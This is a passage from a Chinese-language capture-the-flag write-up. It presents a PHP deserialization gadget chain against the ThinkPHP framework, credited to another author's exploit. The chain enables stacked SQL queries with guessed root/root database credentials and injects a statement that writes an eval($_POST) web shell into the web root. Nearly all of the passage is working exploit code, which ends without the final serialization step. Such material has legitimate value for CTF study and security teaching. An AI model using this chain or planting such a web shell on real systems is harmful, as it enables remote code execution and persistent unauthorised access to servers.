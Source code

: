 我们还可以把堆叠打开，用堆叠注入写shell，也就是本题的exp（参考[赵总的exp](https://www.zhaoj.in/read-6859.html#WEB3_easytp) 赵总牛逼

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true ,   // 开启才能读取文件
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    // 打开堆叠注入
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",   // 猜出弱口令
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
}

namespace Think{
    use Think\Db\Driver\Mysql;
    class Model{
        protected $options   = array();
        protected $pk;
        protected $data = array();
        protected $db = null;

        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array( // 堆叠注入写入shell
                "table" => "mysql.user where 1=1;select '<?php eval(\$_POST[amiz]);?>' into outfile '/var/www/html/amiz.php';#",
                "where" => "1=1"
            );
        }
    }
```